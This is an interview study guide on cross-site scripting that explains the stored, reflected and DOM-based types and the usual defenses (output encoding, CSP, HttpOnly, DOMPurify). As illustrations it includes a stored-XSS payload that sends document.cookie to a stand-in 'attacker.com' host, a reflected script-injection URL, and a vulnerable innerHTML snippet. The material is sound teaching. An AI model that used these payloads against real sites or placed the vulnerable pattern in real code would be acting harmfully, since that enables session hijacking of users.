

# Cross-Site Scripting (XSS): Stored, Reflected, DOM-Based & CSP Defenses

> **Domain:** Cybersecurity Fundamentals & Application Security (AppSec)  
> **Sub-Domain:** Client-Side Vulnerabilities & Browser Security  
> **Interview Importance:** Critical / Mandatory Technical Interview Topic  

---

## 1. Topic & Definitions

- **Cross-Site Scripting (XSS - CWE-79):** A client-side code injection vulnerability where an adversary injects malicious client-side scripts (typically JavaScript) into web pages viewed by other users.
- **The Core Root Cause:** The web browser's inability to distinguish between legitimate JavaScript delivered by the application developer and malicious JavaScript injected by an untrusted third party.
- **Why It's Dangerous:** The malicious script executes inside the victim's browser under the **security context and origin** of the vulnerable website, granting the attacker access to session cookies, local storage tokens, DOM contents, and camera/microphone permissions.

---

## 2. The Three Types of XSS Compared



---

### 1. Stored XSS (Persistent XSS) - Most Severe
- **Mechanism:** The attacker submits malicious script via an input form (e.g. comment field, user profile bio, product review) that is permanently stored in the application's backend database.
- **Execution:** Every time any legitimate user (or admin) visits that page, the server fetches the stored payload and renders it in the victim's browser, executing the script automatically without requiring phishing links.
- **Blast Radius:** Massive; affects all visitors to the compromised page.

```text
Attacker posts comment: "<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>"
         │
         ▼ (Saved to Database)
[ Application Database ]
         │
         ▼ (Victim User visits blog post)
Server returns: <div>Comment: <script>fetch(...)</script></div>
         │
         ▼ Victim's browser executes script -> Session hijacked instantly!
```

---

### 2. Reflected XSS (Non-Persistent XSS)
- **Mechanism:** The malicious payload is embedded directly inside a crafted HTTP request (typically in a URL query parameter, such as a search query):
  `https://bank.com/search?q=<script>alert(document.cookie)</script>`
- **Execution:** The server reads the query parameter and immediately "reflects" it back in the HTML response:
  `<h1>Search results for: <script>alert(document.cookie)</script></h1>`
- **Delivery:** The attacker must trick the victim into clicking the crafted malicious link (via phishing or social engineering).
- **Blast Radius:** Limited to users who click the link.

---

### 3. DOM-Based XSS (Client-Side Only)
- **Mechanism:** The vulnerability exists entirely within client-side JavaScript code. The malicious payload **never travels to the backend server**!
- **Execution:** Client-side JavaScript reads data from an untrusted **Source** and passes it directly into an unsafe execution **Sink**.
- **Common DOM Sources & Sinks:**
  - **Sources (Untrusted Input):** `location.search`, `location.hash`, `document.URL`, `document.referrer`, `window.name`.
  - **Sinks (Dangerous Execution):** `element.innerHTML`, `document.write()`, `eval()`, `setTimeout()`, `window.location`.

```javascript
// VULNERABLE DOM XSS CODE IN CLIENT BROWSER:
// URL: https://site.com/welcome.html#
let name = location.hash.substring(1);        // SOURCE: location.hash
document.getElementById("greeting").innerHTML = "Hello " + name; // SINK: innerHTML executes!
```

---

## 3. Comparison Matrix: The Three XSS Flavors

| Dimension | Stored XSS | Reflected XSS | DOM-Based XSS |
| :--- | :--- | :--- | :--- |
| **Storage Location** | Server Database / File | Not stored (Reflected immediately) | Not stored (Client memory) |
| **Server Involvement** | Server receives, stores, and serves payload. | Server receives payload in request and reflects in response. | **Zero server involvement.** Handled entirely in client browser. |
| **Delivery Mechanism** | Victim simply visits the infected page. | Victim clicks a crafted phishing URL. | Victim clicks URL containing anchor fragment (`#`). |
| **Server-Side WAF Detection**| Detectable upon storage and delivery. | Detectable in HTTP request URI parameters. | **Invisible to WAF** if payload resides after the `#` hash fragment! |

---

## 4. Comprehensive Defenses Against XSS

```text
+─────────────────────────────────────────────────────────────────────────────+
|                         DEFENSE-IN-DEPTH AGAINST XSS                        |
+─────────────────────────────────────────────────────────────────────────────+
| 1. CONTEXT-AWARE OUTPUT ENCODING:                                           |
|    • HTML Body Context: Convert special characters to HTML entities:        |
|      & -> &amp; | < -> &lt; | > -> &gt; | " -> &quot; | ' -> &#x27;         |
|    • JavaScript Context: Use Unicode hex escapes (\u003C).                  |
|    • URL Context: Use percent encoding (encodeURIComponent).                |
|─────────────────────────────────────────────────────────────────────────────|
| 2. CONTENT SECURITY POLICY (CSP):                                           |
|    • HTTP Response Header restricting where scripts can load from.          |
|    • Header: Content-Security-Policy: default-src 'self'; script-src 'self' |
|    • Eliminates inline scripts (<script>...) and eval() completely!         |
|─────────────────────────────────────────────────────────────────────────────|
| 3. COOKIE HARDENING:                                                        |
|    • Set HttpOnly flag on all session cookies.                              |
|    • Prevents JavaScript from reading document.cookie even if XSS occurs!   |
|─────────────────────────────────────────────────────────────────────────────|
| 4. SAFE DOM APIS & SANITIZATION:                                            |
|    • Use element.textContent instead of element.innerHTML.                 |
|    • Use robust sanitization libraries (DOMPurify) for rich HTML input.     |
+─────────────────────────────────────────────────────────────────────────────+
```

---

## 5. Interview Takeaway: What to Say Under Pressure

### 🎙️ 60-Second Elevator Pitch
> *"Cross-Site Scripting (XSS) is a client-side code injection vulnerability where malicious JavaScript executes within the victim's browser session. It exists in three varieties: Stored XSS, where the payload is persisted in the database and executes for all visitors; Reflected XSS, where the payload in a URL query parameter is immediately reflected by the server requiring a phishing link; and DOM-Based XSS, where client-side JavaScript reads untrusted data from a source like `location.hash` and writes it to an unsafe sink like `innerHTML` without server involvement. Mitigating XSS requires context-aware output encoding, using `textContent` instead of `innerHTML`, sanitizing rich text via DOMPurify, enforcing strict Content Security Policy (CSP) headers to block unauthorized script execution, and marking sensitive session cookies as `HttpOnly` to prevent credential theft."*

### ⚠️ Common Traps & Gotchas
- **Trap:** Claiming `HttpOnly` cookies solve XSS.  
  *Correction:* `HttpOnly` protects **session cookies from being read via JavaScript**. It does NOT stop XSS! An attacker with XSS can still log keystrokes, perform actions on behalf of the user via background `fetch()` requests, deface the website, or overlay fake login modals.
- **Trap:** Assuming a server-side WAF can detect all DOM-based XSS.  
  *Correction:* Browsers **never transmit characters following the `#` hash fragment to the server** in HTTP requests. If a DOM XSS payload resides inside `location.hash`, the server and WAF never see the payload! Defense must occur in client JavaScript.
